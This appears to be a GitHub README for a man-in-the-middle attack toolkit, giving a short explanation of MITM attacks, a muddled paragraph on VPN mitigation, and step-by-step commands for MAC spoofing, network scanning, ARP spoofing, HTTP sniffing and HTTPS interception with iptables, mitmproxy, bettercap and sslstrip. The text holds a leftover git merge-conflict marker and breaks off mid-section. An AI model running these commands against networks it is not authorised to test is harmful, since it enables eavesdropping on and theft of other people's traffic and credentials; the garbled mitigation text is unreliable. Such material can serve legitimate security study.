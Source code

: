 # MITM Attack

[![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger) [![License](http://img.shields.io/:license-mit-blue.svg?style=flat-square)](http://badges.mit-license.org)

Man-in-the-middle (MITM) attacks occur when the attacker manages to position themselves between the legitimate parties to a conversation. The attacker spoofs the opposite legitimate party so that all parties believe they are actually talking to the expected other, legitimate parties. In layman’s terms, MITM attack can be described as eavesdropping.

# Its Mitigation
One safe approach from this is to use a VPN client as it encrypts Internet traffic via AES. With this encryption, data is encrypted and decrypted again. For an internet criminal it is very difficult to hack the encryption because it consists of a very long number and it takes too much time to try all combinations of numbers. When user is equipped with their own bundle which helps them keep in check of their live logs, blacklisting the suspected domains, wildcard clocks domains – blocking of a site and its sub domains and along with that provides the VPN service encrypts and transmits data while it travels from one place to another on the internet.

## Installing Dependencies
- `pip install -r requirements.txt`
- `bash install.sh`
* Flip your machine into forwarding mode (as root):
- `sudo sysctl -w net.ipv4.ip_forward=1`

## Working

1. Changing MAC Address:
`sudo python mac.py -i eth0 -m 12:22:33:44:55:66`
2. Scanning IPs in Network:
`sudo python scanner2.py -t 192.168.43.1/24`
3. Capturing traffic:
`sudo python arp.py -t 192.168.43.73 -d 192.168.43.1`
4. Sniffing HTTP Traffic:
`sudo python psniffer.py -i eth0`
5. Capturing HTTPs Taffic:
   - Using Mitmproxy
`iptables -t nat -A PREROUTING -p TCP - -destination-port 443 -j REDIRECT --to-port 8080`
`sudo mitmproxy -T --host -e`
<<<<<<< HEAD
 - Using bettercap
`sudo bettercap -X`
- or by script 
`sudo python https.py`

### Tech
* MItmproxy - Mitmproxy is a swiss-army knife for debugging, testing, privacy measurements, and penetration testing. It can be used to intercept, inspect, modify and replay web traffic such as HTTP/1, HTTP/2, WebSockets, or any other SSL/TLS- protected protocols. One can prettify and decode a variety of message types ranging from HTML to Protobuf, intercept specific messages on-the-fly, modify them before they reach their destination, and replay them to a client or server later on. For more info refer this- https://docs.mitmproxy.org/stable/concepts-howmitmproxyworks/
* Bettercap - Bettercap is a powerful, easily extensible and portable framework written in Go which aims to offer to security researchers, red teamers and reverse engineers an easy to use, all-in-one solution with all the features they might possibly need for performing reconnaissance and attacking WiFi networks, Bluetooth Low Energy devices, wireless HID devices and Ethernet networks. For more info refer this- https://github.com/bettercap/bettercap
=======
   - Using Sslstrip
 `iptables -t nat -A PREROUTING -p TCP - -destination-port 443 -j REDIRECT --to-port 8080`